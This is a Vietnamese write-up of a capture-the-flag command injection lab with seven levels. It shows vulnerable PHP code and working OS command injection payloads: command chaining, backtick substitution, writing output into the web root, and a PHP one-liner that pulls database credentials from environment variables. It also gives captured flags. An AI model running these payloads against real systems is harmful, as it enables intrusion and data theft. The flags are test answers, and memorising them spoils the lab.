

# **Write-up lab Command Injection** 
Đây là write-up bài lab Command Injection của Cyberjutsu. Bài lab này gồm tất cả là 9 level, trong đó có 7 level được cung cấp source code và 2 level ẩn. Mọi người có thể làm thử trên [website](https://cmdi.cyberjutsu-lab.tech:12001/) của cyberjutsu hoặc chạy bằng docker (dùng lệnh `docker-compose up --build`) rồi truy cập vào localhost:3001 nhé

## **1. [Level 1](https://cmdi.cyberjutsu-lab.tech:12001/)**
Source code: [index.php](./cmdi_level1/src/index.php)

Nhìn vào code, ta thầy rằng người ta sử dụng các lệnh shell để chạy chương trình 
```php
case "ping":
	$result = shell_exec("timeout 10 ping -c 4 $target 2>&1");
	break;
case "nslookup":
    $result = shell_exec("timeout 10 nslookup $target 2>&1");
    break;	
case "dig":
    $result = shell_exec("timeout 10 dig $target 2>&1");
    break;
```
Ta thấy rằng, biến target không được kiểm soát bởi bất kì điều gì cho nên đoạn code này ta có thể dùng OS Comand Injection để khai thác.

Thật vậy, nếu ta nhập là `;id` trong trường họp 'ping' thì chương trình sẽ thực hiện lệnh là
```zsh
timeout 10 ping -c 4 ;id 2>&1
```
Ở đây, chương trình sẽ thực hiện lệnh ping trước rồi đến lệnh id (note: dấu chấm phẩy có tác dụng ngăn cách giữa 2 lệnh). Nếu đúng là vậy thì sẽ có kết quả của lệnh id cho chúng ta.

Chúng ta hãy thử xem sao:


Vậy là chúng ta đã khai thác thành công rồi, chúng ta sẽ thay lệnh id bằng các câu lệnh khác để truy tìm ra flag

**Payload:**
-   **;ls /**


-   **;cat /142awdfasd_secret.txt**


## **2. [Level 2](https://cmdi.cyberjutsu-lab.tech:12002/)**
Source code: [index.php](./cmdi_level2/src/index.php)

Nhìn vào code, ta thấy rằng, người ta không cho mình sử dụng dấu ; để phân cách các câu lệnh
```php
if (strpos($target, ";") !== false) 
    die("Hacker detected!");
```


Tuy nhiên, ngoài dấu ; ra, chúng ta còn có các cách khác để phân cách hai lệnh với nhau (dùng `|`, `||`, `&` hoặc `&&`). Ở đây ta sử dụng `|`.

**Payload: `|cat \*.txt`**


## **3. [Level 2.5](https://cmdi.cyberjutsu-lab.tech:12003/)**

Bài này không có source code.

Bài này người ta không cho mình dùng `;`, `|` và `&` tức là chúng ta không thể thực hiện nhiều câu lệnh cùng lúc


Tuy nhiên, ta vẫn có thể thực hiện lồng câu lệnh trong một câu lệnh bằng dấu `` ` `` hoặc `$()`


**Payload: `` `nl /*.txt` `` (dùng dig)**


## **4. [Level 3](https://cmdi.cyberjutsu-lab.tech:12004/)**

Source code: [index.php](./cmdi_level3/src/index.php)

Nhìn vào code, ta thấy rằng kết quả của câu lệnh không được in ra cho chúng ta xem. Chúng ta chỉ biết rằng câu lệnh có thực hiện thành công hay không?
```php
case "backup":
    $result = shell_exec("timeout 3 zip /tmp/$target -r /var/www/html/index.php 2>&1");
    if ($result !== null && strpos($result, "zip error") === false)
        die("Backup thành công");
    else
        die("Backup không thành công");
    break;
```
Nếu chúng ta không xem được kết quả câu lệnh, thì chúng ta thử chuyển kết quả đó vào một file rồi ta đọc file đó bằng trình duyệt bằng dấu `>`

Ở đây, chúng ta thấy thư mục hiện tại của web là `/var/www/html/`. Vì vậy, chúng ta thử `;id>/var/www/html/lUcgryy.txt #` (dấu `#` là để comment lại phần phía sau của câu lệnh). Câu lệnh mà chương trình thực tế sẽ làm là

``` zsh
timeout 3 zip /tmp/;id>/var/www/html/lUcgryy.txt # -r /var/www/html/index.php 2>&1
```
Kết quả:


Vậy là chúng ta đã khai thác thành công rồi
**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**


## **5. [Level 4](https://cmdi.cyberjutsu-lab.tech:12005/)**
Source code: [index.php](./cmdi_level4/src/index.php), [nginx.conf](./cmdi_level4/config/nginx.conf)

Mình thử lại payload của level 3 và nó cũng ra flag (chắc là lỗi kĩ thuật)

**Payload: `;cat /*.txt>/var/www/html/lUcgryy.txt #`**


## **6. [Level 5](https://cmdi.cyberjutsu-lab.tech:12006/)**
Source code: [index.php](./cmdi_level5/src/index.php), [nginx.conf](./cmdi_level5/config/nginx.conf)

Source code như cũ, nhưng khi thử lại payload của 2 level trên thì file `lUcgryy.txt` không tồn tại trên server.


Có vẻ như người ta đã chặn quyền viết vào thư mục `/var/www/html` nên chúng ta không thể chuyển kết quả của câu lệnh vào file khác.

Tuy nhiên, chúng ta vẫn còn giả thiết là server sẽ trả về kết quả thành công hoặc thất bại của câu lệnh. Liệu chúng ta có cách nào lợi dụng điều đó không? Và câu trả lời là có, chúng ta vẫn làm lệnh backup như bình thường và đồng thời sẽ brute force để tìm ra từng kí tự trong file flag (mình đã biết rằng file flag là một file .txt nào đó trong thư mục `/`). Nếu kí tự đó không có trong flag thì ta sẽ trả về câu `zip error` để khiến server in ra câu `Backup không thành công` và ta sẽ dựa vào điều đó để tìm ra mỗi kí tự có trong flag. Từ đó, chúng ta có một python script: [exploit.py](./scripts/level5.py)

**Flag:**
```
lv5: CBJS{trUe_0r_f4lse_d3tEct1on_b56c6ec4dd59e1741144ee8913e6b857}
```
## **7. [Level 6](https://cmdi.cyberjutsu-lab.tech:12007/)**
Source code: [index.php](./cmdi_level6/src/index.php), [nginx.conf](./cmdi_level6/config/nginx.conf)

Nhìn vào code, ta thấy rằng chương trình chỉ cho ta biết là lệnh `back up` đã được chạy, chứ không thể biết là có thành công hay không. Vì vậy, ta không thể sử dụng cách của level 5 được.

Tuy vậy, ta vẫn có thể khai thác bằng cách kiểm soát thời gian server trả respond về tùy vào trường hợp rồi tính thời gian đó thay vì dựa vào kết quả server trả về. Từ đó, chúng ta có script: [level6.py](./scripts/level6.py)

**Flag**
```
CBJS{Dr_Str4nge_W1Ll_pR0ud_oF_y0U_5be2459fbc44d1c2331cb840acd15fd0}
```

## **8. [Level 7](https://cmdi.cyberjutsu-lab.tech:12008/)**
Level này không có source code (Source code trong thư mục mình tìm được khi nghịch website :)).
Level này có 2 flag.

Đầu tiên, ta tìm được cách để chèn lệnh vào bằng cách `';command #`



Ở đây, ta thấy có hai file, `cat` chúng thì được hai file: [index.php](./cmdi_level7/index.php), [test_pdo.php](./cmdi_level7/test_pdo.php)

### **Flag 1**
**Payload: `';cat /*.txt #`**


### **Flag 2**
Có vẻ như flag 2 nằm ở trong database mysql (dựa vào [test_pdo.php](./cmdi_level7/test_pdo.php)).

Đầu tiên, mình thử kết nối với mysql trên máy tính linux của mình thì không thể kết nối được. Do đó, chỉ có cách kết nối thông qua server của website bởi vì file [test_pdo.php](./cmdi_level7/test_pdo.php) chạy thành công.


Vì vậy, mình test thử lệnh mysql nhưng nó không hoạt động bởi vì server không hỗ trợ lệnh này. Do đó, mình chuyển qua sử dụng lệnh php
Trước hết, mình kiểm tra thử lệnh này có hoạt động được hay không bằng cách `';php -r 'phpinfo();' #`


Vậy là nó hoạt động. Tiếp theo, mình nghiên cứu cách truy vấn thông tin của database này bằng php thì ra các payload sau:
```php
';php -r 'try{
    $connectionString = "mysql:host=" . getenv('MYSQL_HOSTNAME') . ";port=3306;dbname=" . getenv('MYSQL_DATABASE');
    $pdo = new \PDO($connectionString, getenv('MYSQL_USER'), getenv('MYSQL_PASSWORD'));
    $query = "SHOW TABLES";
    $result = $pdo->query($query);
    $rows = $result->fetchAll(PDO::FETCH_COLUMN);
    echo json_encode($rows);
    } catch(Exception $e) {
        echo "php connect to mysql failed with:\n $e";}' #
```
Payload này để biết được các table có trong database này. Ở đây chỉ có `flag_table`


Sửa biến query thành `SELECT * FROM flag_table` để truy xuất ra flag